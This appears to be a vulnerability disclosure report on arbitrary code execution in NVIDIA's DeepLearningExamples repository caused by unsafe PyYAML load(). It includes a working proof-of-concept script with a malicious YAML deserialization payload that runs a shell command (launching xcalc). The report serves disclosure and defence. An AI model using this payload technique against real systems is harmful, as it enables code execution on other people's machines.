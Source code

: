 # Description
**Arbitrary Code Excecution** in NVIDIA/DeepLearningExamples.This repository provides State-of-the-Art Deep Learning examples that are easy to train and deploy, achieving the best reproducible accuracy and performance with NVIDIA CUDA-X software stack running on NVIDIA Volta, Turing and Ampere GPUs.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **pyyaml**
# Exploit code
**Python File**
```python
import params_dict
import os

os.system('git clone https://github.com/NVIDIA/DeepLearningExamples.git')
os.chdir('DeepLearningExamples/TensorFlow2/Segmentation/MaskRCNN/mask_rcnn/hyperparameters/')
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
  """
open('exploit.yml','w+').write(exploit)
params_dict.read_yaml_to_params_dict('exploit.yml')
```
# POC
* Run the python Exploit code 
![](https://cdn.discordapp.com/attachments/749019614352244777/784446865860067358/Screenshot_from_2020-12-04_21-15-52.png)
